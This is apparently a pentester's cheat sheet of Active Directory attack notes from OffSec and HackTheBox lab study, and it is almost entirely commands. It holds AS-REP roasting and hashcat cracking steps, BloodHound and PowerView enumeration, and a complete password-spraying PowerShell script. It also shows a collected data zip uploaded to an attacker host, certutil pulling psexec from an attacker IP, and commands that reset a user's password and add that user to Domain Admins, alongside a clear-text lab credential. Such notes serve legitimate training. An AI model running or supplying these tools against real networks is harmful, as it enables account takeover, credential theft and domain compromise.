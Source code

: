 # Enumeration

<details>

<summary>Finding Name of Domain</summary>

```bash
crackmapexec smb 10.11.1.123 -u '' -p ''
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -s base
```

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
  * Domain: `EGOTISTICAL-BANK.LOCAL`

</details>

<details>

<summary>LDAPSearch</summary>

```bash
ldapsearch -H ldap://192.168.165.122 -x -W -b "dc=hutch,dc=offsec" > ldap_search.txt

# Usernames
cat ldap_search.txt| grep -i "samaccountname"

# Might have hidden passwords
cat ldap_search.txt| grep -i "description"
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

</details>

<details>

<summary>AS-REP Roasting</summary>

### Generate list of potential usernames

```bash
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python2.7 usernamer.py -f full_names.txt > potential_usernames.txt
```

### Kerbrute

* `--downgrade` so it is in a format that hashcat can crack
* Can use `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt` if don't know wordlist

```bash
git clone https://github.com/ropnop/kerbrute.git
go build
kerbrute --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL --hash-file hashes.txt --downgrade userenum potential_usernames.txt
```

### Get-NPUsers

```bash
impacket-GetNPUsers -usersfile users.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
```

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

### Cracking Hashes

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>BloodHound</summary>

```bash
# Generate JSON files
python3 -m bloodhound -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.165.122 --zip

neo4j console
```

Search bloodhound in Apps and open --> load in the jsons (Upload Data).

Upload completed --> Search "SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL" --> Node Info --> First Degree Object Control (under Outbound Object Control) --> To see items that this user has rights over

Go hamburger menu and click analysis --> Start from the bottom of the entire list.

### OR Use SharpHound.exe to collect data for BloodHound

The following will generate `20230425015352_BloodHound.zip`

```bash
SharpHound.exe -c all

# OR
Import-Module ..\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputPrefix "corp_audit"
```

Transfer files to Kali [https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

```powershell
PS C:\temp> (New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.231.175]
└─# python3 SimpleHTTPServerWithUpload.py 80
Serving HTTP on localhost port 80 (http://localhost:80/) ...
(True, "<br><br>'/home/kali/Documents/pg_practice/192.168.231.175/20230425015352_BloodHound.zip'", 'by: ', ('192.168.231.175', 49993))
192.168.231.175 - - [25/Apr/2023 05:13:14] "POST / HTTP/1.1" 200 -
```

Start `neo4j console` and start `bloodhound`

Upload the zip file to ![](<../.gitbook/assets/image (13).png>)

</details>

<details>

<summary>PowerView</summary>

Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Hostnames & IPs of Computers

```powershell
Get-DomainComputer -Domain ops.comply.com  | select name, dnshostname, operatingsystem
```

```bash
nslookup jump09.ops.comply.com

#Name:    jum09.ops.comply.com
#Address:  172.16.218.167
```

### Enumerate Users

```powershell
Get-NetUser | select samaccountname, lastlogon
```

### Enumerate Groups

* Able to show nested groups (unlike `net groups`)

```powershell
Get-NetGroup | select samaccountname
```

### Enumerate OS of Domain hosts

```powershell
Get-NetComputer | select operatingsystem, dnshostname
```

### Resolves Domain Name to IP address

```powershell
Resolve-IPAddress CLIENT76.corp.com
```

### Tests if current account has localadmin access to domain hosts

```powershell
Find-LocalAdminAccess
```

### View if someone logs into the box

* Might not work if running newer versions of Windows

```powershell
Get-NetSession -ComputerName files04 -verbose
```

#### OR, Use PsLoggedon

```powershell
.\PsLoggedon.exe \\client74
```

</details>

<details>

<summary>Object Permissions</summary>

* Access control lists has access control elements&#x20;



* GenericAll: Full permissions on object (change user's password, add to group)&#x20;
* GenericWrite: Edit certain attributes on the object&#x20;
* WriteOwner: Change ownership of the object&#x20;
* WriteDACL: Edit ACE's applied to object&#x20;
* AllExtendedRights: Change password, reset password, etc.&#x20;
* ForceChangePassword: Password change for object&#x20;
* Self (Self-Membership): Add ourselves to for example a group

### Powerview

#### Find GenericAll permissions on Management Department group

<pre class="language-powershell"><code class="lang-powershell">Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts the SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-21-1987370270-658905905-1781884369-1104", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
# CORP\Domain Admins
# CORP\stephanie
<strong># BUILTIN\Account Operators
</strong># Local System
# CORP\Enterprise Admins
</code></pre>

#### Find GenericAll permissions on Jen user

```powershell
Get-ObjectAcl -Identity "jen" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

</details>

<details>

<summary>User's Domain Privileges</summary>

```bash
net user <username> /domain
```

</details>

<details>

<summary>Groups Enumeration</summary>

```
net group /domain
```

* However, `net.exe` does not show nested groups.

Listing all the groups in a domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
<#
Foreach($obj in $Result)
{
    $obj.Properties.member
}
#>
```

</details>

<details>

<summary>Currently Logged On Users</summary>

* Find logged on users in the high-value groups since their creds will be cached in memory

```powershell
Import-Module .\PowerView.ps1
```

* The following command invokes `NetWkstaUserEnum`, which requires administrative permissions and returns the list of all users logged on to a target workstation.

```powershell
Get-NetLoggedon -ComputerName client251
```

* The following command invoke `NetSessionEnum`, which can be used from a regular domain user and returns a list of active user sessions on servers.

```powershell
Get-NetSession -ComputerName dc01
```

</details>

<details>

<summary>Service Principal Names (SPN) Enumeration</summary>

* SPN is used to associate a service on a specific server to a service account in Active Directory.

- Service accounts may also be members of high value groups

* Some apps may use a set of predefined service accounts like LocalSystem, LocalService, and NetworkService. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

The following script searches for the string `http`, which indicates the presence of a registered web server.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

```sh
nslookup CorpWebServer.corp.com
```

</details>

<details>

<summary>Account Policy</summary>

```
net users
```

* The Lockout observation window means that after X minutes of the last login attempt, user will be given 3 more login attempts.

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

* The following is `Spray-Passwords.ps1`

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }
    
    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

</details>

<details>

<summary>Anonymous Credential LDAP Dumping</summary>

```bash
ldapsearch -LLL -x -H ldap:// -b ‘’ -s base ‘(objectclass=*)’
```

</details>

<details>

<summary>Impacket Look Up SID</summary>

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

</details>

<details>

<summary>Windapsearch</summary>

```bash
python3 windapsearch.py -d host.domain -u domain\ldapbind -p PASSWORD -U
```

</details>

## OSEP Notes below

<details>

<summary>Enumerating Access Rights</summary>

* See what AD object has access rights to the "offsec" user
  *   ```powershell
      . .\powerview.ps1
      Get-ObjectAcl -Identity offsec  
      ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
      ```


* Command that resolve the SID through ConvertFrom-SID
  * ```powershell
    Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
    ```

</details>

<details>

<summary>Enumerating GenericAll Rights </summary>

* Enumerate all domain users that our current account has GenericAll rights to
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```



      <figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption><p><br></p></figcaption></figure>


* Enumerate all domain groups that current account has GenericAll rights to
  *   ```powershell
      Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating WriteDACL</summary>

* Grants permission to modify the DACL itself
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating GenericWrite</summary>

*   ```powershell
    Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
    ```

    <figure><img src="../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumeration in AD Forest</summary>

```powershell
nltest /trusted_domains
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

### Powerview

```powershell
# Uses LDAP to query trust details
Get-DomainTrust
# Uses Netlogon API to query trust details (More info)
Get-DomainTrust -API
# Enum users in corp1.com domain
Get-DomainUser -Domain corp1.com 
    # Find accounts that belong to the enterprise administrator grp
    Get-DomainUser -Domain corp1.com | where memberof -match "Enterprise Admins"
# Enum groups in corp1.com domain
Get-DomainGroup -Domain corp1.com | Select samaccountname
```

</details>

<details>

<summary>Enumerating Forest Trusts</summary>

* Get all trust relationships for current forest
  *   ```powershell
      ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
      ```


* Enumerating Forest Trusts Using PowerView
  *   ```powershell
      Get-ForestTrust
      Get-DomainTrust -Domain corp1.com
      ```


* Automating Forest Trust Enumeration with PowerView
  *   ```powershell
      Get-DomainTrustMapping
      ```


* Identifying Foreign Group Membership
  * User from another domain or forest that is a member of a group inside the target forest
  *   ```powershell
      Get-DomainForeignGroupMember -Domain corp2.com
      Convert-SidToName S-1-5-21-1416213050-106196312-571527550-1107
      # complyedge\jim 
      ```


* Change Password of said account & add it to Domain Admin group so we can access it from our DC host
  *   ```powershell
      net user jim P@ssw0rd /domain
      net group "Domain Admins" jim /add /domain
      runas /user:complyedge\jim powershell
      ```


* In new Powershell Window as jim:
  * ```powershell
    certutil -urlcache -f http://192.168.45.160/psexec_64.exe psexec_64.exe
    .\psexec_64.exe \\file06.ops.comply.com cmd
    ```

</details>

